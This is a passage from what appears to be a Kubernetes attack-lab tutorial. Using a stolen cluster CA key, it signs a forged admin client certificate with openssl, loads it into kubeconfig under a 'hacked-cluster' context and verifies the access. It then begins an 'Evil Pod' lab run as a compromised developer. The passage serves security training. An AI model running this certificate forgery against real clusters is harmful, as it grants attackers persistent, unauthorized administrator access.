 Normally you'd send the CSR to your Certificate Authority to sign it with their private key, and whose signature can be verified with their public cert, but we have the private CA key, so now we are the CA so we'll sign our own request.
Since, we have the private key and a copy of the public cert, we can now sign this CSR as the Kubernetes CA.
```
openssl x509 -req -in user.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out user.crt -days 1024 -sha256
```

The signed cert is output to user.crt

We can now import the cert into our .kube/config file for use by `kubectl`
```
kubectl config set-credentials kubernetes-admin --client-certificate=user.crt --client-key=user.key --embed-certs
```
Now we'll create a context that'll use the credentials and uses the existing cluster settings
```
kubectl config set-context k8s-admin@hacked-cluster --user=kubernetes-admin --cluster kind-lab
```

Finally, we'll switch `kubectl` to use the new context.

```
kubectl config use-context k8s-admin@hacked-cluster
```

You can test out your access, you're still admin, but now its as the cluster admin account you were using before switching to the developer accoount, just with a second certificate.
```
kubectl auth can-i --list
```

You can just keep using this new signed client certificate since its for the same user.

### Slide 139 - Evil Pod (lab)

Let's go back to the original scenario but this time the pod and special service account didn't exist.
```
kubectl delete deployment myapp -n pls-dont-hack-me
```

```
kubectl delete serviceaccount read-secrets -n pls-dont-hack-me
```

**Note:** Notice you did that as kubernetes-admin account but with the context using your forged certificate

Now lets go back to pretending we've compromised the developer's credentials and switch to using them.

```
kubectl config use-context developer@kind-lab
```
Let's go back to the home directory
```
cd ~
```
